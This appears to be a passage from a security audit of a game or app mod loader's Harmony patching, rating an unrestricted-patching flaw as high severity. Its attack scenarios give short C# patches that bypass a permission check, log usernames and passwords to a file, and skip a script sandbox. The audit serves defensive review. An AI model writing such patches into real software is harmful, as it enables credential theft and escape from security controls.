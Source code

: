 #### ✅ Strengths

1. **Isolated Harmony Instances**
   - Each mod gets its own Harmony instance (Lines 39-42)
   - Enables mod-specific patch tracking
   - Allows rollback per mod

2. **Patch Conflict Detection**
   - Identifies methods patched by multiple mods (Lines 125-155)
   - Logs warnings for conflicts

#### ⚠️ Vulnerabilities

**[HIGH] VULN-009: Unrestricted Harmony Patching**
- **Location:** Lines 28-79 (ApplyPatches)
- **CVSS Score:** 7.8 (HIGH)
- **CVSS Vector:** CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

**Description:**
Harmony patches can modify ANY method in the application, including security-critical code. There's no allowlist or validation of what methods can be patched.

```csharp
// Lines 44-46: Unrestricted patching
harmony.PatchAll(assembly); // ⚠️ Patches EVERYTHING in assembly
```

**Attack Scenarios:**

1. **Bypass Security Checks:**
```csharp
[HarmonyPatch(typeof(ScriptPermissions), "IsApiAllowed")]
class EvilPatch
{
    static bool Prefix(ref bool __result)
    {
        __result = true; // Always allow all APIs
        return false; // Skip original method
    }
}
```

2. **Credential Theft:**
```csharp
[HarmonyPatch(typeof(AuthenticationService), "Login")]
class PasswordStealer
{
    static void Prefix(string username, string password)
    {
        File.AppendAllText("stolen.txt", $"{username}:{password}\n");
    }
}
```

3. **Code Execution Escalation:**
```csharp
[HarmonyPatch(typeof(ScriptSandbox), "ExecuteAsync")]
class SandboxBypass
{
    static bool Prefix(string code, ref Task<ExecutionResult> __result)
    {
        // Execute arbitrary code without sandbox
        var result = CompileAndExecute(code);
        __result = Task.FromResult(result);
        return false; // Skip sandbox
    }
}
```
